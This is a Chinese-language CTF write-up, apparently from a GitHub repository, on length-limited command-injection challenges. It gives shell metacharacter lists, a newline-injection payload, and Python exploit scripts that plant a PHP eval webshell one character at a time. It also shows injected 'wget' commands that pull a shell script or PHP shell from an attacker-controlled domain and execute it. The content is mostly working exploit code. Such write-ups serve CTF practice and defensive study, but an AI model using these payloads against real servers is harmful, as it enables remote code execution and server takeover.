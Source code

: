 ### 任意命令writeup
---------  
linux 上任意命令执行,一般会用到下面几个字符 
```bash 
  `   |   ||   &   &&   .   ;   -   <>   $    %0a 
```
###  [exec1](./exec1.php)

用 %0a 来执行命令,只能适用于linux , 127.0.0.1%0awhoami

---------
### [exec2](./exec2.php) 当可输入的字符不够长时,这里包含分割符一共可输入13个字符 

1. 最短的shell是  ```<?`$_GET[c]` ```; 一共十四个字符 
所以,直接写shell,长度肯定是不够的
所以思路是先写命令到一个文件中,然后用 sh filename  执行脚本,获取shell  

```python 
#!/usr/bin/python 
#conding: -*-utf-8-*-   

# exp.py    

import requests as req 

url = "http://localhost/ctf/exec2.php"
for i in "echo '<?php @eval($_POST[1]);?>' > shell.php ":
    data = {"ip":"0.0.0.0;echo -n \\"+i+">>1"}
    res = req.post(url,data=data)
    # print data['ip']
    # print res.text 
print "[*] bash shell upload successful!"

data={"ip":"0.0.0.0;bash 1"}
res=req.post(url,data=data)

shell="http://127.0.0.1/ctf/shell.php"

res=req.get(shell)
if  res.status_code == 200:
    print "[*] get shell successful"

```
获取shell在shell.php 

2.  第二种获得shell的方法  

前提是你需要有一个比较短的域名,然后在服务器的根目录下写一个302跳转 

```php
 // index.php 

 <?php header("Location: ./1.sh") ?>
```

```bash
#1.sh 
echo '<?php @eval($_POST[1]);?>' > shell.php 
```
这两个文件放在同一个目录下,执行

```bash
ip=0.0.0.0;wget i.com 
ip=0.0.0.0;sh index.html  #刚好21个字符
```
然后就获取一个shell  

-------
### [exec3](./exec3.php) 
这是7个字符get shell的题目,[writeup在这里](http://wonderkun.cc/index.html/?p=524)

下面只写一个python的poc吧
```python
#!/usr/bin/python
#-*- coding: utf-8 -*- 
import requests 
def GetShell():
    url = "http://192.168.56.129/shell.php?1="
    fileNames = ["1.php","-O\ \\","cn\ \\","\ a.\\","wget\\"] 
    # linux创建中间有空格的文件名，需要转义，所以有请求"cn\ \\"
    # 可以修改hosts文件，让a.cn指向一个自己的服务器。
    # 在a.cn 的根目录下创建index.html ，内容是一个php shell 
    for fileName in fileNames:
        createFileUrl = url+">"+fileName
        print createFileUrl 
        requests.get(createFileUrl)
    getShUrl = url + "ls -t>1"
    print getShUrl
    requests.get(getShUrl)
    getShellUrl = url + "sh 1"
    print getShellUrl
    requests.get(getShellUrl)
    shellUrl = "http://192.168.56.129/1.php"
    response = requests.get(shellUrl)
    if response.status_code == 200:
        print "[*] Get shell !"
    else :
        print "[*] fail!"
if __name__ == "__main__":
    GetShell()
    
```